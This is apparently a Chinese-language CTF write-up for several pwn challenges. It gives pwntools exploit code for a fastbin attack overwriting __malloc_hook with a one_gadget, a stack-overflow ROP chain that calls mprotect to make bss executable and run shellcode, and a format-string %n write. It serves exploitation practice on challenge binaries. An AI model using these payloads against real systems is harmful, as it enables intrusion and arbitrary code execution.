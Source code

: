 ```python
free(4) # g

# g->fd = _IO()
payload = p64(base+0x3c4aed)
fill(2, payload)

alloc(0x60) # g5
alloc(0x60) # _IO()6

# _IO() + 0x13 == __malloc_hook(), one_gadget
payload = flat('\x00'*0x13,p64(base+0x4526a))
fill(6, payload)

# malloc() -> __malloc_hook()
alloc(1)
```


### get_started_3dsctf_2016

本地运行脚本：

```python
get_flag = 0x80489a0
payload = flat('a'*0x38,get_flag,'a'*4,0x308cd64f,0x195719d1)
sl(payload)

print r()
```

本来这样是可以直接读取 flag 的，但是远程不行。因此远程运行时换了一种更具难度的方法，就是调用 `mprotect` 修改 `bss` 段权限使得其可执行，随后写入 shellcode。

需要注意 `mprotect` 第二个参数要求页对齐，第三个参数为 `7` 表示 `rwx`。修改完成后从标准输入读入 shellcode，写入 `bss_base` 后返回到 `bss_base` 处执行。

```python
pop3 = 0x80483b8
got_base = 0x80eb000
bss_base = elf.bss()
payload = flat('a'*0x38,elf.sym['mprotect'],pop3,got_base,0x1000,7,elf.sym['read'],pop3,0,bss_base,0x200,bss_base)
sl(payload)
sleep(1)
sl(asm(shellcraft.sh()))
```

### not_the_same_3dsctf_2016

和上面 get_started 做法一样。我怀疑 BUU 上一题在服务器上放错了二进制文件，也放了这一题的，所以第一个脚本才会无效。

### [第五空间 2019 决赛]PWN5

长度限制无法栈溢出，但是存在明显的格式化字符串漏洞。通过 `aaaa %08x %08x ...` 可以判断偏移为 10。

然后利用 `%10$n` 修改 `0x804c044` 地址（IDA 得到）处的值即可，最后输入 `passwd` 需要与已成功输出的字符数相等。当然，也可以直接修改 `atoi` 的 GOT 地址为 `system` 的 PLT 地址。
